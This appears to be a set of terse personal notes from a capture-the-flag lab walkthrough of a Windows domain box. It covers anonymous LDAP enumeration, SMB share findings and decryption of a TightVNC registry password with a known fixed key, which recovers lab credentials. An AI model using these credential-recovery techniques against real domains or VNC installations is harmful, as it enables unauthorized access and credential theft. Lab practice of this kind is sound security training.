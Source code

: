 ![[Pasted image 20240620150226.png]]

```sh
ldapsearch -x -H ldap://10.10.10.182 -D '' -w '' -b "DC=cascade,DC=local" > tmp
```

```sh
# copy paste the output into tmp and show unique items (anomaly) 
cat tmp | awk '{print $1}' | sort | uniq -c | sort -nr
```

![[Pasted image 20240620153945.png]]



**NETLOGON**
-MapDataDrive.vbs 

### SMB
#### Audit$
- RunAudit.bat
	- CascAudit.exe "\\CASC-DC1\Audit$\DB\Audit.db"
- DB/Audit.db
	- ArkSvc:D|zC;


Google `TightVNC registy key decrypt`

https://github.com/frizb/PasswordDecrypts

![[Pasted image 20240620172044.png]]

"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f


```sh
msfconsole

irb

fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"

require 'rex/proto/rfb'

Rex::Proto::RFB::Cipher.decrypt ["6bcf2a4b6e5aca0f"].pack('H*'), fixedkey

```

sT333ve2

![[Pasted image 20240620173013.png]]

Run crackmapexec again with acquired credentials
![[Pasted image 20240620173149.png]]

`s.smith:sT333ve2`
